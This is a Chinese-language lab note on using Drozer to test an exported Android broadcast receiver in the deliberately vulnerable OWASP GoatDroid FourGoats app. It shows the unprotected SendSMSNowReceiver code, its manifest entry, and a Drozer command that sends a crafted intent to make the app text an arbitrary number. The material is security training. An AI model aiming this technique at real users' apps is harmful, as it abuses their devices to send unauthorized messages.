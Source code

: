 ```yaml
---
title: Test Sieve - broadcast receivers exported
tags: [Android, Drozer]

category: "Tools/Others/Android Related/Drozer/Test Sieve"
---
```


# Test Sieve - broadcast receivers exported
這個就不是用Sieve做示範，因為這個App沒有match的receiver
```bash
dz> run app.broadcast.info -a com.mwr.example.sieve
Attempting to run shell module
Package: com.mwr.example.sieve
  No matching receivers.
```
所以我就用之前安裝的goatdroid做示範
1. 檢查broadcast receiver
    ```bash
    dz> run app.broadcast.info -a org.owasp.goatdroid.fourgoats
    Attempting to run shell module
    Package: org.owasp.goatdroid.fourgoats
      org.owasp.goatdroid.fourgoats.broadcastreceivers.SendSMSNowReceiver
        Permission: null
    ```
2. 確認後就逆向看一下
    在`org.owasp.goatdroid.fourgoats.broadcastreceivers`中有SendSMSNowReceiver這個class，內容如下:
    ```java
    public class SendSMSNowReceiver extends BroadcastReceiver {
        Context context;

        @Override // android.content.BroadcastReceiver
        public void onReceive(Context arg0, Intent arg1) {
            this.context = arg0;
            SmsManager sms = SmsManager.getDefault();
            Bundle bundle = arg1.getExtras();
            sms.sendTextMessage(bundle.getString("phoneNumber"), null, bundle.getString("message"), null, null);
            Utils.makeToast(this.context, Constants.TEXT_MESSAGE_SENT, 1);
        }
    }
    ```
3. Send Something
    此時我們就可以用drozer發出一個intent，但是在發出之前要看一下AndroidManifest.xml中對於receiver的描述如下，如果想知道這個intent-filter代表的事情可以參考[^chatgpt-intent-filter]，簡單來說就是所有app都可以發出broadcast，那什麼樣的intent會被goatdroid所接收呢?就是帶有`org.owasp.goatdroid.fourgoats.SOCIAL_SMS`這個action才會被接收，並且觸發onReceive這個function
    ```xml
    <manifest versionCode="1" versionName="1.0" package="org.owasp.goatdroid.fourgoats">
      ...
      <application theme="@2131361870" label="@2131296266" icon="@2130837632" debuggable="true">
        ...
        <receiver label="Send SMS" name=".broadcastreceivers.SendSMSNowReceiver">
          <intent-filter>
            <action name="org.owasp.goatdroid.fourgoats.SOCIAL_SMS"></action>
          </intent-filter>
        </receiver>
      </application>
      ...
    </manifest>
    ```
    ```bash!
    dz> run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --component org.owasp.goatdroid.fourgoats.broadcastreceivers SendSMSNowReceiver --extra string phoneNumber 123456789 --extra string message "Hello mate!"
    ```
    因為fourgoat這個App需要一個server，但是原作把server的link下架了，所以我也不知道實際送出這個broadcast會有什麼效果，但就是先紀錄起來，之後有機會可以用